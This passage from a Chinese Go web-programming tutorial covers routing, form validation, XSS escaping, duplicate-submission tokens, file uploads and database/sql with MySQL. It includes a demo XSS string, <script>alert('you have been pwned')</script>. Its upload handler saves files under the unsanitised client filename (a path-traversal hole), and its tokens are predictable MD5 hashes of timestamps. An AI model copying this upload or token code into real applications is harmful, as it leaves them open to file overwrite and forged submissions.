    // 如果仍然没有对应的 handler，则返回 NotFound 的 handler
		h, pattern = NotFoundHandler(), ""
	}
	return
}
```

原来他是根据用户请求的 URL 和路由器里面存储的 map 去匹配的，当匹配到之后返回存储的 handler，调用这个 handler 的 ServeHTTP 接口就可以执行到相应的函数了。

通过上面这个介绍，我们了解了整个路由过程，Go 其实支持外部实现的路由器 `ListenAndServe` 的第二个参数就是用以配置外部路由器的，它是一个 Handler 接口，即外部路由器只要实现了 Handler 接口就可以,我们可以在自己实现的路由器的 ServeHTTP 里面实现自定义路由功能。

如下代码所示，我们自己实现了一个简易的路由器：

```go
package main

import (
	"fmt"
	"net/http"
)

type MyMux struct {
}

func (p *MyMux) ServeHTTP(w http.ResponseWriter, r *http.Request) {
	if r.URL.Path == "/" {
		sayhelloName(w, r)
		return
	}
	http.NotFound(w, r)
	return
}

func sayhelloName(w http.ResponseWriter, r *http.Request) {
	fmt.Fprintf(w, "Hello myroute!")
}

func main() {
	mux := &MyMux{}
	http.ListenAndServe(":9090", mux)
}
```

#### 小结

小结一下整个 http 包的运行步骤：

- 首先调用 Http.HandleFunc

  1. 调用了 DefaultServeMux 的 HandleFunc

  2. 调用了 DefaultServeMux 的 Handler

  3. 往 DefaultServeMux 的 map[string]muxEntry 中增加对应的 handler 和路由规则

- 其次调用 http.ListenAndServe(":9090", routeHandler)

  1. 实例化 Server

  2. 调用 Server 的 ListenAndServe()

  3. 调用 net.Listen("tcp", addr) 监听端口

  4. 启动一个 for 循环，在循环体中 Accept 请求

  5. 对每个请求实例化一个 Conn，并且开启一个 goroutine 为这个请求进行服务 go c.serve()

  6. 读取每个请求的内容 w, err := c.readRequest()

  7. 判断 routeHandler(第二个参数) 是否为空，如果没有设置 routeHandler，routeHandler会被设置为默认的 DefaultServeMux

  8. 调用 routeHandler(默认为 DefaultServeMux) 的 ServeHttp 方法

  9. 根据 request的 url 尝试去匹配到对应 handler，并且执行这个 handler 的 ServeHTTP 方法，如果找不到，就执行 NotFoundHandler 的 ServeHTTP 方法


## *5. 表单处理*

### a. 处理表单的输入

举个栗子，假设我们在同级目录下有一个 html templete 文件，比如 login.gtpl：

```html
<html>
<head>
<title></title>
</head>
<body>
<form action="/login" method="post">
	用户名:<input type="text" name="username">
	密码:<input type="password" name="password">
	<input type="submit" value="登录">
</form>
</body>
</html>
```

> gtpl 是结合 golang 的模板解析语法的 html 文件

上面递交表单到服务器的 `/login`，当用户输入信息点击登录之后，会跳转到服务器的路由 `login` 里面，我们首先要判断这个是什么方式传递过来，POST 还是 GET。http 包里面有一个很简单的方式就可以获取，来看看怎么处理 login 页面的 form 数据：

```go
package main

import (
	"fmt"
	"html/template"
	"log"
	"net/http"
	"strings"
)

func login(w http.ResponseWriter, r *http.Request) {
	fmt.Println("method:", r.Method) //获取请求的方法
	if r.Method == "GET" {
    //这里的 login.gtpl 文件要以 GOPATH 的相对位置为准，而不是 src 文件夹
		t, _ := template.ParseFiles("login.gtpl")
		log.Println(t.Execute(w, nil))
	} else {
		//请求的是登录数据，那么执行登录的逻辑判断
    //注意:如果没有调用 ParseForm 方法，下面无法获取表单的数据，ParseForm 将请求参数(来自 url 或者是 body)填充到 Form 或 PostForm 表单中
    r.ParseForm()
		fmt.Println("username:", r.Form["username"])
		fmt.Println("password:", r.Form["password"])
	}
}

func main() {
	http.HandleFunc("/", sayhelloName)       //设置访问的路由
	http.HandleFunc("/login", login)         //设置访问的路由
	err := http.ListenAndServe(":9090", nil) //设置监听的端口
	if err != nil {
		log.Fatal("ListenAndServe: ", err)
	}
}
```

login 函数中我们根据 `r.Method` 来判断是显示登录界面还是处理登录逻辑。当 GET 方式请求时显示登录界面，其他方式请求时则处理登录逻辑，如查询数据库、验证登录信息等。

`r.Form` 里面包含了所有请求的参数，比如 URL 中 query-string、POST 的数据、PUT 的数据，所以当你在 URL 中的 query-string 字段和POST冲突时，会保存成一个 slice，里面存储了多个值，Go 官方会在接下来的版本里面将会把 POST、GET 这些数据分离开来。

`request.Form` 是一个 url.Values 类型，里面存储的是对应的类似 `key=value` 的信息，下面展示了可以对 form 数据进行的一些操作:

```go
v := url.Values{}
v.Set("name", "Ava")
v.Add("friend", "Jess")
v.Add("friend", "Sarah")
v.Add("friend", "Zoe")
fmt.Println(v.Get("name"))
fmt.Println(v.Get("friend"))
fmt.Println(v["friend"])
```

> Request 本身也提供了 FormValue() 函数来获取用户提交的参数。如 r.Form["username"] 也可写成 r.FormValue("username")。调用 r.FormValue 时会自动调用 r.ParseForm，所以不必提前调用。 r.FormValue 只会返回同名参数中的第一个，若参数不存在则返回空字符串。


### b. 验证表单的输入

下面列出一些常用的服务器端的表单元素验证：

#### 必填字段

你想要确保从一个表单元素中得到一个值，例如前面小节里面的用户名，我们如何处理呢？Go有一个内置函数`len`可以获取字符串的长度，这样我们就可以通过len来获取数据的长度，例如：

```go
if len(r.Form["username"][0])==0{
	//为空的处理
}
```

`r.Form`对不同类型的表单元素的留空有不同的处理， 对于空文本框、空文本区域以及文件上传，元素的值为空值,而如果是未选中的复选框和单选按钮，则根本不会在r.Form中产生相应条目，如果我们用上面例子中的方式去获取数据时程序就会报错。所以我们需要通过`r.Form.Get()`来获取值，因为如果字段不存在，通过该方式获取的是空值。但是通过`r.Form.Get()`只能获取单个的值，如果是map的值，必须通过上面的方式来获取。

#### 数字

你想要确保一个表单输入框中获取的只能是数字，例如，你想通过表单获取某个人的具体年龄是50岁还是10岁，而不是像“一把年纪了”或“年轻着呢”这种描述。

如果我们是判断正整数，那么我们先转化成int类型，然后进行处理：

```go
getint,err:=strconv.Atoi(r.Form.Get("age"))
if err!=nil{
	//数字转化出错了，那么可能就不是数字
}

//接下来就可以判断这个数字的大小范围了
if getint >100 {
	//太大了
}
```

还有一种方式就是正则匹配的方式

```go
if m, _ := regexp.MatchString("^[0-9]+$", r.Form.Get("age")); !m {
	return false
}
```

对于性能要求很高的用户来说，这是一个老生常谈的问题了，他们认为应该尽量避免使用正则表达式，因为使用正则表达式的速度会比较慢。但是在目前机器性能那么强劲的情况下，对于这种简单的正则表达式效率和类型转换函数是没有什么差别的。如果你对正则表达式很熟悉，而且你在其它语言中也在使用它，那么在Go里面使用正则表达式将是一个便利的方式。

> Go实现的正则是[RE2](http://code.google.com/p/re2/wiki/Syntax)，所有的字符都是UTF-8编码的。

#### 中文

有时候我们想通过表单元素获取一个用户的中文名字，但是又为了保证获取的是正确的中文，我们需要进行验证，而不是用户随便的一些输入。对于中文我们目前有两种方式来验证，可以使用 `unicode` 包提供的 `func Is(rangeTab *RangeTable, r rune) bool` 来验证，也可以使用正则方式来验证，这里使用最简单的正则方式，如下代码所示：

```go
if m, _ := regexp.MatchString("^\\p{Han}+$", r.Form.Get("realname")); !m {
	return false
}
```

#### 英文

我们期望通过表单元素获取一个英文值，例如我们想知道一个用户的英文名，应该是astaxie，而不是asta谢。

我们可以很简单的通过正则验证数据：

```go
if m, _ := regexp.MatchString("^[a-zA-Z]+$", r.Form.Get("engname")); !m {
	return false
}
```

#### 电子邮件地址

你想知道用户输入的一个Email地址是否正确，通过如下这个方式可以验证：

```go
if m, _ := regexp.MatchString(`^([\w\.\_]{2,10})@(\w{1,})\.([a-z]{2,4})$`, r.Form.Get("email")); !m {
	fmt.Println("no")
}else{
	fmt.Println("yes")
}
```

#### 手机号码

你想要判断用户输入的手机号码是否正确，通过正则也可以验证：

```go
if m, _ := regexp.MatchString(`^(1[3|4|5|8][0-9]\d{4,8})$`, r.Form.Get("mobile")); !m {
	return false
}
```

#### 下拉菜单

如果我们想要判断表单里面`<select>`元素生成的下拉菜单中是否有被选中的项目。有些时候黑客可能会伪造这个下拉菜单不存在的值发送给你，那么如何判断这个值是否是我们预设的值呢？

我们的select可能是这样的一些元素：

```go
<select name="fruit">
<option value="apple">apple</option>
<option value="pear">pear</option>
<option value="banana">banana</option>
</select>
```

那么我们可以这样来验证：

```go
slice:=[]string{"apple","pear","banana"}

v := r.Form.Get("fruit")
for _, item := range slice {
	if item == v {
		return true
	}
}
return false
```

#### 单选按钮

如果我们想要判断radio按钮是否有一个被选中了，我们页面的输出可能就是一个男、女性别的选择，但是也可能一个15岁大的无聊小孩，一手拿着http协议的书，另一只手通过telnet客户端向你的程序在发送请求呢，你设定的性别男值是1，女是2，他给你发送一个3，你的程序会出现异常吗？因此我们也需要像下拉菜单的判断方式类似，判断我们获取的值是我们预设的值，而不是额外的值。

```go
<input type="radio" name="gender" value="1">男
<input type="radio" name="gender" value="2">女
```

那我们也可以类似下拉菜单的做法一样：

```go
slice:=[]string{"1","2"}

for _, v := range slice {
	if v == r.Form.Get("gender") {
		return true
	}
}
return false
```

#### 复选框

有一项选择兴趣的复选框，你想确定用户选中的和你提供给用户选择的是同一个类型的数据。

```go
<input type="checkbox" name="interest" value="football">足球
<input type="checkbox" name="interest" value="basketball">篮球
<input type="checkbox" name="interest" value="tennis">网球
```

对于复选框我们的验证和单选有点不一样，因为接收到的数据是一个slice：

```go
slice:=[]string{"football","basketball","tennis"}
a:=Slice_diff(r.Form["interest"],slice)
if a == nil{
	return true
}

return false
```

上面这个函数`Slice_diff`包含开源的一个[库](https://github.com/astaxie/beeku)里面(操作slice和map的库)。

#### 日期和时间

你想确定用户填写的日期或时间是否有效。例如 ，用户在日程表中安排8月份的第45天开会，或者提供未来的某个时间作为生日。

Go里面提供了一个time的处理包，我们可以把用户的输入年月日转化成相应的时间，然后进行逻辑判断：

```go
t := time.Date(2009, time.November, 10, 23, 0, 0, 0, time.UTC)
fmt.Printf("Go launched at %s\n", t.Local())
```

获取time之后我们就可以进行很多时间函数的操作。具体的判断就根据自己的需求调整。

#### 身份证号码

如果我们想验证表单输入的是否是身份证，通过正则也可以方便的验证，但是身份证有15位和18位，我们两个都需要验证：

```go
//验证15位身份证，15位的是全部数字
if m, _ := regexp.MatchString(`^(\d{15})$`, r.Form.Get("usercard")); !m {
	return false
}

//验证18位身份证，18位前17位为数字，最后一位是校验位，可能为数字或字符X。
if m, _ := regexp.MatchString(`^(\d{17})([0-9]|X)$`, r.Form.Get("usercard")); !m {
	return false
}
```


### c. 预防跨站脚本

现在的网站包含大量的动态内容以提高用户体验，比过去要复杂得多。所谓动态内容，就是根据用户环境和需要，Web应用程序能够输出相应的内容。动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting，安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

攻击者通常会在有漏洞的程序中插入JavaScript、VBScript、 ActiveX或Flash以欺骗用户。一旦得手，他们可以盗取用户帐户信息，修改用户设置，盗取/污染cookie和植入恶意广告等。

对 XSS 最佳的防护应该结合以下两种方法：

1. 验证所有输入数据，有效检测攻击(上文已经提到过)
2. 另一个是对所有输出数据进行适当的处理，以防止任何已成功注入的脚本在浏览器端运行

Go的 **html/template** 里面带有下面几个函数可以帮你转义：

```go
func HTMLEscape(w io.Writer, b []byte) //把b进行转义之后写到w
func HTMLEscapeString(s string) string //转义s之后返回结果字符串
func HTMLEscaper(args ...interface{}) string //支持多个参数一起转义，返回结果字符串
```

按照前文提到的 login 的例子来说：

```go
fmt.Println("username:", template.HTMLEscapeString(r.Form.Get("username"))) //输出到服务器端
fmt.Println("password:", template.HTMLEscapeString(r.Form.Get("password")))
template.HTMLEscape(w, []byte(r.Form.Get("username"))) //输出到客户端
```

如果我们输入的 username 是 `<script>alert()</script>`，那么我们可以在浏览器上面看到输出如下所示：


相当于过滤了 <script> 标签。

Go 的 html/template 包默认帮你过滤了 html 标签，但是有时候我们仍然希望输出这个 <script>alert()</script> ，那么请使用 text/templete：

```go
import "text/template"
...
t, err := template.New("foo").Parse(`{{define "T"}}Hello, {{.}}!{{end}}`)
err = t.ExecuteTemplate(out, "T", "<script>alert('you have been pwned')</script>")
```

输出：

```go
Hello, <script>alert('you have been pwned')</script>!
```


### d. 防止多次递交表单

不知道你是否曾经看到过一个论坛或者博客，在一个帖子或者文章后面出现多条重复的记录，这些大多数是因为用户重复递交了留言的表单引起的。由于种种原因，用户经常会重复递交表单。通常这只是鼠标的误操作，如双击了递交按钮，也可能是为了编辑或者再次核对填写过的信息，点击了浏览器的后退按钮，然后又再次点击了递交按钮而不是浏览器的前进按钮。当然，也可能是故意的——比如，在某项在线调查或者博彩活动中重复投票。那我们如何有效的防止用户多次递交相同的表单呢？

解决方案是在表单中添加一个带有唯一值的隐藏字段。在验证表单时，先检查带有该唯一值的表单是否已经递交过了。如果是，拒绝再次递交；如果不是，则处理表单进行逻辑处理。另外，如果是采用了Ajax模式递交表单的话，当表单递交后，通过javascript来禁用表单的递交按钮。

我们将前文的 login.gtpl 文件修改一下：

```html
<html>
<head>
    <title>login</title>
</head>
<body>
<form action="/login" method="post">
    <input type="checkbox" name="interest" value="football">足球
    <input type="checkbox" name="interest" value="basketball">篮球
    <input type="checkbox" name="interest" value="tennis">网球
    用户名:<input type="text" name="username">
    密码:<input type="password" name="password">
    <input type="hidden" name="token" value="{{.}}">
    <input type="submit" value="登陆">
</form>
</body>
</html>
```

我们在模版里面增加了一个隐藏字段 `token`，这个值我们通过 MD5(时间戳) 来获取唯一值，然后我们把这个值存储到服务器端( session来控制，下文会提到如何保存)，以方便表单提交时比对判定。 

```go
func login(w http.ResponseWriter, r *http.Request) {
	fmt.Println("method:", r.Method) //获取请求的方法
	if r.Method == "GET" {
		crutime := time.Now().Unix()
		h := md5.New()
    //通过对当前时间进行md5加密
		io.WriteString(h, strconv.FormatInt(crutime, 10))
    //生成唯一的token值
		token := fmt.Sprintf("%x", h.Sum(nil))

		t, _ := template.ParseFiles("login.gtpl")
    //将生成的token值输出到ResponseWriter对象中
		t.Execute(w, token)
	} else {
		//请求的是登陆数据，那么执行登陆的逻辑判断
		r.ParseForm()
    //获得name为token的input的value
		token := r.Form.Get("token")
		if token != "" {
			//验证token的合法性
		} else {
			//不存在token报错
		}
		fmt.Println("username length:", len(r.Form["username"][0]))
		fmt.Println("username:", template.HTMLEscapeString(r.Form.Get("username"))) //输出到服务器端
		fmt.Println("password:", template.HTMLEscapeString(r.Form.Get("password")))
		template.HTMLEscape(w, []byte(r.Form.Get("username"))) //输出到客户端
	}
}
```

修改重启应用后的 login 页面源码：


我们看到token已经有输出值，你可以不断的刷新，可以看到这个值在不断的变化。这样就保证了每次显示form表单的时候都是唯一的，用户递交的表单保持了唯一性。

我们的解决方案可以防止非恶意的攻击，并能使恶意用户暂时不知所措，然后，它却不能排除所有的欺骗性的动机，对此类情况还需要更复杂的工作。


### e. 处理文件上传

#### 表单选择文件上传

要使表单能够上传文件，首先第一步就是要添加 form 的 `enctype` 属性，`enctype` 属性有如下三种情况:

```
application/x-www-form-urlencoded   表示在发送前编码所有字符（默认）
multipart/form-data	  不对字符编码。在使用包含文件上传控件的表单时，必须使用该值。
text/plain	  空格转换为 "+" 加号，但不对特殊字符编码。
```

所以，创建新的表单html文件, 命名为 upload.gtpl, html 代码应该类似于:

```html
<html>
<head>
	<title>上传文件</title>
</head>
<body>
<form enctype="multipart/form-data" action="/upload" method="post">
  <input type="file" name="uploadfile" />
  <input type="hidden" name="token" value="{{.}}"/>
  <input type="submit" value="upload" />
</form>
</body>
</html>
```

在服务器端，我们增加一个handlerFunc：

```go
// 新增一个 handlerFunc
http.HandleFunc("/upload", upload)

// 处理/upload 逻辑
func upload(w http.ResponseWriter, r *http.Request) {
	fmt.Println("method:", r.Method) //获取请求的方法
	if r.Method == "GET" {
		// 生成唯一标识 token，防止恶意多次上传
		crutime := time.Now().Unix()
		h := md5.New()
		io.WriteString(h, strconv.FormatInt(crutime, 10))
		token := fmt.Sprintf("%x", h.Sum(nil))

		t, _ := template.ParseFiles("src/mathapp/upload.gtpl")
		t.Execute(w, token)
	} else {
		// 将待上传的文件读入内存中，如果超过了 maxMemory，会将剩余部分存入系统的临时文件夹中
		r.ParseMultipartForm(32 << 20)
    // 解析 form 表单中 name 为 uploadfile 的 value
		file, handler, err := r.FormFile("uploadfile")
		if err != nil {
			fmt.Println(err)
			return
		}
		defer file.Close()
		fmt.Fprintf(w, "%v", handler.Header)
		// 创建一个只能写入或创建权限的同名文件
		f, err := os.OpenFile("src/mathapp/test/"+handler.Filename, os.O_WRONLY|os.O_CREATE, 0666)  // 此处假设当前目录下已存在test目录
		if err != nil {
			fmt.Println(err)
			return
		}
		defer f.Close()
		// 将内存或临时文件中的内容写入新的文件中
		io.Copy(f, file)
	}
}
```

通过上面的代码可以看到，处理文件上传我们需要调用 `r.ParseMultipartForm`，里面的参数表示 `maxMemory`，调用 `ParseMultipartForm` 之后，上传的文件存储在 `maxMemory` 大小的内存里面，如果文件大小超过了 `maxMemory`，那么剩下的部分将存储在系统的临时文件中。我们可以通过 `r.FormFile` 获取上面的文件句柄，然后实例中使用了 `io.Copy` 来存储文件。

> 获取其他非文件字段信息的时候就不需要调用 `r.ParseForm`，因为在需要的时候Go自动会去调用。而且 `ParseMultipartForm` 调用一次之后，后面再次调用不会再有效果。

通过上面的实例我们可以看到我们上传文件主要三步处理：

1. 表单中增加 enctype="multipart/form-data"
2. 服务端调用 `r.ParseMultipartForm`，把上传的文件存储在内存和临时文件中
3. 使用 `r.FormFile` 获取文件句柄，然后对文件进行存储等处理。

文件 handler 是 multipart.FileHeader，里面存储了如下结构信息：

```go
type FileHeader struct {
	Filename string
	Header   textproto.MIMEHeader
	// contains filtered or unexported fields
}
```

#### 客户端上传文件

```go
package main

import (
	"bytes"
	"fmt"
	"io"
	"io/ioutil"
	"mime/multipart"
	"net/http"
	"os"
)

// 处理客户端上传文件
func postFile(filename string, targetUrl string) error {
	bodyBuf := &bytes.Buffer{}
	bodyWriter := multipart.NewWriter(bodyBuf)

	//关键的一步操作
	fileWriter, err := bodyWriter.CreateFormFile("uploadfile", filename)
	if err != nil {
		fmt.Println("error writing to buffer")
		return err
	}

	//打开文件句柄操作
	fh, err := os.Open(filename)
	if err != nil {
		fmt.Println("error opening file")
		return err
	}
	defer fh.Close()

	//iocopy
	_, err = io.Copy(fileWriter, fh)
	if err != nil {
		return err
	}

	contentType := bodyWriter.FormDataContentType()
	bodyWriter.Close()

	resp, err := http.Post(targetUrl, contentType, bodyBuf)
	if err != nil {
		return err
	}
	defer resp.Body.Close()
	resp_body, err := ioutil.ReadAll(resp.Body)
	if err != nil {
		return err
	}
	fmt.Println(resp.Status)
	fmt.Println(string(resp_body))
	return nil
}
// sample usage
func main() {
  http.HandleFunc("/", sayhelloName) //设置访问的路由
	http.HandleFunc("/login", login) //设置访问的路由
	http.HandleFunc("/upload", upload) //设置访问的路由
	// ListenAndServe 内部会启动一个无限循环
  http.ListenAndServe(":9090", nil) //设置监听的端口
  // 模拟客户端上传文件(这里的代码执行不到，因为上面的监听会阻塞)
	target_url := "http://localhost:9090/upload"
	filename := "./astaxie.pdf" 
	postFile(filename, target_url)
}
```

客户端通过 multipart.Write 把文件的文本流写入一个缓存中，然后调用 http 的 Post 方法把缓存传到服务器，然后又会触发我们之前注册好了的名为 upload 的 handlerFunc 方法。

> 如果你还有其他普通字段例如 username 之类的需要同时写入，那么可以调用 multipart 的 WriteField 方法写很多其他类似的字段。


## *6. 访问数据库*

### a. database/sql 接口

Go 与 PHP 不同的地方是 Go 官方没有提供数据库驱动，而是为开发数据库驱动定义了一些标准接口，开发者可以根据定义的接口来开发相应的数据库驱动，这样做有一个好处，只要是按照标准接口开发的代码， 以后需要迁移数据库时，不需要任何修改。

#### sql.Register

这个存在于 database/sql 的函数是用来注册数据库驱动的，当第三方开发者开发数据库驱动时，都会实现 init 函数，在init里面会调用这个 `Register(name string, driver driver.Driver)` 完成本驱动的注册。

我们来看一下 mymysql、sqlite3 的驱动里面都是怎么调用的：

```go
//https://github.com/mattn/go-sqlite3驱动
func init() {
	sql.Register("sqlite3", &SQLiteDriver{})
}

//https://github.com/mikespook/mymysql驱动
// Driver automatically registered in database/sql
var d = Driver{proto: "tcp", raddr: "127.0.0.1:3306"}
func init() {
	Register("SET NAMES utf8")
	sql.Register("mymysql", &d)
}
```

我们看到第三方数据库驱动都是通过调用这个函数来注册自己的数据库驱动名称以及相应的 driver 实现。在 database/sql 内部通过一个map来存储用户定义的相应驱动。

```go
var drivers = make(map[string]driver.Driver)
drivers[name] = driver
```

因此通过 database/sql 的注册函数可以同时注册多个数据库驱动，只要不重复。

在我们使用 database/sql 接口和第三方库的时候经常看到如下:

```go
import (
  "database/sql"
  _ "github.com/mattn/go-sqlite3"
)
```

这儿使用 `_` 的意思是引入后面的包名而不直接使用这个包中定义的函数，变量等资源。

包在引入的时候会自动调用包的 init 函数以完成对包的初始化。因此，我们引入上面的数据库驱动包之后会自动去调用 init 函数，然后在 init 函数里面注册这个数据库驱动，这样我们就可以在接下来的代码中直接使用这个数据库驱动了。

#### driver.Driver

Driver 是一个数据库驱动的接口，他定义了一个 method： Open(name string)，这个方法返回一个数据库的 Conn 接口。

```go
type Driver interface {
	Open(name string) (Conn, error)
}
```

返回的 Conn 只能用来进行一次 goroutine 的操作，也就是说不能把这个 Conn 应用于 Go 的多个 goroutine 里面。如下代码会出现错误

```go
...
go goroutineA (Conn)  //执行查询操作
go goroutineB (Conn)  //执行插入操作
...
```

上面这样的代码可能会使 Go 不知道某个操作究竟是由哪个 goroutine 发起的，从而导致数据混乱，比如可能会把 goroutineA 里面执行的查询操作的结果返回给 goroutineB 从而使 B 错误地把此结果当成自己执行的插入数据。

第三方驱动都会定义这个函数，它会解析 name 参数来获取相关数据库的连接信息，解析完成后，它将使用此信息来初始化一个 Conn 并返回它。

#### driver.Conn

Conn 是一个数据库连接的接口定义，他定义了一系列方法，**一个 Conn 只能应用在一个 goroutine 里面，不能使用在多个 goroutine 里面。**

```go
type Conn interface {
	Prepare(query string) (Stmt, error)
	Close() error
	Begin() (Tx, error)
}
```

Prepare 函数返回与当前连接相关的执行 Sql 语句的准备状态，可以进行查询、删除等操作。

Close 函数关闭当前的连接，执行释放连接拥有的资源等清理工作。因为驱动实现了 database/sql 里面建议的 conn pool，所以你不用再去实现缓存 conn 之类的，这样会容易引起问题。

Begin 函数返回一个代表事务处理的 Tx，通过它你可以进行查询,更新等操作，或者对事务进行回滚、递交。

#### driver.Stmt

Stmt 是一种准备好的状态，和 Conn 相关联，而且**只能应用于一个 goroutine 中，不能应用于多个 goroutine。**

```go
type Stmt interface {
	Close() error
	NumInput() int
	Exec(args []Value) (Result, error)
	Query(args []Value) (Rows, error)
}
```

Close 函数关闭当前的链接状态，但是如果当前正在执行 query，query 还是有效返回 rows 数据；

NumInput 函数返回当前预留参数的个数，当返回 >=0 时数据库驱动就会智能检查调用者的参数。当数据库驱动包不知道预留参数的时候，返回 -1；

Exec 函数执行 Prepare 准备好的 sql，传入参数执行 update/insert 等操作，返回 Result 数据；

Query 函数执行 Prepare准备好的 sql，传入需要的参数执行 select 操作，返回 Rows 结果集。

#### driver.Tx

事务处理一般就两个过程，递交或者回滚。数据库驱动里面也只需要实现这两个函数就可以：

```go
type Tx interface {
	Commit() error
	Rollback() error
}
```

Commit 函数用来递交一个事务，Rollback 函数用来回滚事务。

#### driver.Execer

这是一个 Conn 可选择实现的接口：

```go
type Execer interface {
	Exec(query string, args []Value) (Result, error)
}
```

如果这个接口没有定义，那么在调用 DB.Exec 就会首先调用 Prepare 返回 Stmt，然后执行 Stmt 的 Exec，然后关闭 Stmt 。

#### driver.Result

这个是执行 Update/Insert 等操作返回的结果接口定义：

```go
type Result interface {
	LastInsertId() (int64, error)
	RowsAffected() (int64, error)
}
```

LastInsertId 函数返回由数据库执行插入操作得到的自增ID号。

RowsAffected 函数返回 query 操作影响的数据条目数。

#### driver.Rows

Rows是执行查询返回的结果集接口定义：

```go
type Rows interface {
	Columns() []string
	Close() error
	Next(dest []Value) error
}
```

Columns 函数返回查询数据库表的字段信息，这个返回的 slice 和 sql 查询的字段一一对应，而不是返回整个表的所有字段。

Close 函数用来关闭 Rows 迭代器。

Next 函数用来返回下一条数据，把数据赋值给 dest。**dest 里面的元素必须是 driver.Value 的值除了 string，返回的数据里面所有的 string 都必须要转换成 []byte。**如果最后没数据了，Next 函数最后返回 io.EOF。

#### driver.RowsAffected

RowsAffected 其实就是一个 int64 的别名，但是他实现了 Result 接口，用来底层实现 Result 的表示方式：

```go
type RowsAffected int64
func (RowsAffected) LastInsertId() (int64, error)
func (v RowsAffected) RowsAffected() (int64, error)
```

#### driver.Value

Value 其实就是一个空接口，他可以容纳任何的数据：

```go
type Value interface{}
```

drive 的 Value 是驱动必须能够操作的 Value，Value 要么是 nil，要么是下面的任意一种：

```go
int64
float64
bool
[]byte
string   // 除了Rows.Next返回的不能是string.
time.Time
```

#### driver.ValueConverter

ValueConverter 接口定义了如何把一个普通的值转化成 driver.Value 的接口：

```go
type ValueConverter interface {
	ConvertValue(v interface{}) (Value, error)
}
```

在开发的数据库驱动包里面实现这个接口的函数在很多地方会使用到，这个 ValueConverter 有很多好处：

- 转化 driver.value 到数据库表相应的字段，例如 int64 的数据如何转化成数据库表 uint16 字段
- 把数据库查询结果转化成 driver.Value 值
- 在 scan 函数里面如何把 driver.Value 值转化成用户定义的值

#### driver.Valuer

Valuer 接口定义了返回一个 driver.Value 的方式：

```go
type Valuer interface {
	Value() (Value, error)
}
```

很多类型都实现了这个 Value 方法，用来自身与 driver.Value 的转化。

#### database/sql

一个驱动只要实现了上述这些接口就能完成增删查改等基本操作了，剩下的就是与相应的数据库进行数据交互等细节问题了，在此不再赘述。

其实 database/sql 在 database/sql/driver 提供的接口基础上还定义了一些更高阶的方法，用以简化数据库操作,同时内部还建议性地实现一个 conn pool 。

```go
type DB struct {
	driver 	 driver.Driver
	dsn    	 string
	mu       sync.Mutex  // protects freeConn and closed
	freeConn []driver.Conn  // reuseable conn pool
	closed   bool
}
```

我们可以看到 Open 函数返回的是 DB 对象，里面有一个 freeConn，它就是那个简易的连接池。它的实现相当简单甚至可以说简陋，就是当执行 `db.prepare` -> `db.prepareDC` 的时候会 `defer dc.releaseConn`，然后调用 `db.putConn`，也就是把这个连接放入连接池，每次调用 `db.conn` 的时候会先判断 freeConn 的长度是否大于0，大于0说明有可以复用的 conn，直接拿出来用就是了，如果不大于0，则创建一个 conn，然后再返回之。


### b. 使用 MySQL 数据库

目前 Internet 上流行的网站构架方式是 LAMP，其中的 M 即 MySQL, 作为数据库，MySQL 以免费、开源、使用方便为优势成为了很多 Web 开发的后端数据库存储引擎。

#### MySQL 安装与配置

- [安装与配置](https://segmentfault.com/a/1190000006255923)

- [MySQL 命令](https://www.runoob.com/mysql/mysql-create-tables.html)

#### MySQL 驱动

Go中支持MySQL的驱动目前比较多，有如下几种，有些是支持database/sql标准，而有些是采用了自己的实现接口,常用的有如下几种:

- https://github.com/go-sql-driver/mysql 支持 database/sql，全部采用 go 写。
- https://github.com/ziutek/mymysql 支持 database/sql，也支持自定义的接口，全部采用 go 写。
- https://github.com/Philio/GoMySQL 不支持 database/sql，自定义接口，全部采用 go 写。

接下来的例子主要以第一个驱动为例，也推荐大家采用它，主要理由：

- 这个驱动比较新，维护的比较好
- 完全支持 database/sql 接口
- 支持 keepalive，保持长连接，虽然 mymysql 也支持 keepalive，但不是线程安全的，这个从底层就支持了 keepalive

#### 示例

接下来的几个小节里面我们都将采用同一个数据库表结构：数据库 test，用户表 userinfo，关联用户信息表 userdetail。

```go
CREATE TABLE `userinfo` (
	`uid` INT(10) NOT NULL AUTO_INCREMENT,
	`username` VARCHAR(64) NULL DEFAULT NULL,
	`department` VARCHAR(64) NULL DEFAULT NULL,
	`created` DATE NULL DEFAULT NULL,
	PRIMARY KEY (`uid`)
);

CREATE TABLE `userdetail` (
	`uid` INT(10) NOT NULL DEFAULT '0',
	`intro` TEXT NULL,
	`profile` TEXT NULL,
	PRIMARY KEY (`uid`)
)
```

如下示例将示范如何使用 database/sql 接口对 MySQL 数据库表进行增删改查操作：

```go
//打开对应的数据库
//db, err := sql.Open("mysql", "user:password@/dbname")
db, err := sql.Open("mysql", "test_user:test123456@/test_db")
defer db.Close()

//插入数据
stmt, err := db.Prepare("INSERT INTO userinfo SET username=?,department=?,created=?")
res, err := stmt.Exec("szy", "研发部门", "2019-05-20")
id, err := res.LastInsertId()

//更新数据
stmt, err = db.Prepare("update userinfo set username=? where uid=?")
res, err = stmt.Exec("szy_update", id)
affect, err := res.RowsAffected()

//查询数据
rows, err := db.Query("SELECT * FROM userinfo")
for rows.Next() {
  var uid int
  var username string
  var department string
  var created string
  err = rows.Scan(&uid, &username, &department, &created)
  fmt.Println(uid)
  fmt.Println(username)
  fmt.Println(department)
  fmt.Println(created)
}

//删除数据
stmt, err = db.Prepare("delete from userinfo where uid=?")
res, err = stmt.Exec(id)
affect, err = res.RowsAffected()
```

通过上面的代码我们可以看出，Go 操作 Mysql 数据库是很方便的。

关键的几个函数我解释一下：

sql.Open() 函数用来打开一个注册过的数据库驱动，go-sql-driver 中注册了 mysql 这个数据库驱动，第二个参数是 DSN(Data Source Name)，它是 go-sql-driver 定义的一些数据库链接和配置信息。它支持如下格式：

```mysql
user@unix(/path/to/socket)/dbname?charset=utf8
user:password@tcp(localhost:5555)/dbname?charset=utf8
user:password@/dbname
user:password@tcp([de:ad:be:ef::ca:fe]:80)/dbname
```

db.Prepare() 函数用来返回准备要执行的 sql 操作，然后返回准备完毕的执行状态。

db.Query() 函数用来直接执行 Sql 返回 Rows 结果。

stmt.Exec() 函数用来执行 stmt 准备好的 SQL 语句

**可以看到我们传入的参数都是 =? 对应的数据，这样做的方式可以一定程度上防止 SQL 注入。**


### c. 使用 SQLite 数据库

